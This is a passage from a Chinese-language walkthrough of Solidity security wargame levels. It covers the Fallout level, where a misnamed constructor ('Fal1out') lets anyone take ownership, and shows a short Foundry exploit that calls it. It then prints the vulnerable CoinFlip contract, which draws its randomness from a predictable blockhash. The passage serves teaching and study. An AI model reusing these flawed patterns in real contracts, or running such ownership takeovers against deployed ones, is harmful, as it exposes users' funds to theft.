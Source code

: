 这个挑战非常独特，如果你是Solidity安全主题的新手，你可能很难理解如何解决这个挑战，但只有一个原因：这个问题只在`Solidity 0.4.22`之前存在。

在`Solidity 0.4.22`之前，为一个合约定义构造函数的唯一方法是定义一个与合约本身同名的函数。

**这个挑战的解决方案非常简单**。我们只需要调用从未被调用过的`Fal1out`函数。

```js
function exploitLevel() internal override {
    vm.startPrank(player);
    
    // 在 Solidity 0.4.22 之前，为一个合约定义构造函数的唯一方法是定义一个与合约本身同名的函数。
    //  在该版本之后，他们引入了一个新的`constructor`关键字来避免这种错误。
    // 在这个例子中，开发者犯了一个错误，把构造函数的名字弄错了。
    // Contract name -> Fallout
    // Constructor name -> Fal1out
    // 这样做的结果是，合约从未被初始化，所有者是地址(0)
    // 而且我们能够调用`Fal1out`函数，在这一点上，它不是一个构造函数（只能调用一次），而是一个 "普通"函数。
    // 这也意味着任何人都可以多次调用这个函数来切换合约的所有者。
    level.Fal1out();
    
    vm.stopPrank();
}
```



## **挑战#3 — 投掷硬币**

这是一个掷硬币游戏，你需要通过猜测掷硬币的结果来建立你的连胜记录。要完成这个等级，你需要使用你的通灵能力来连续10次猜测正确的结果。

```js
pragma solidity ^0.4.18;

import 'openzeppelin-solidity/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```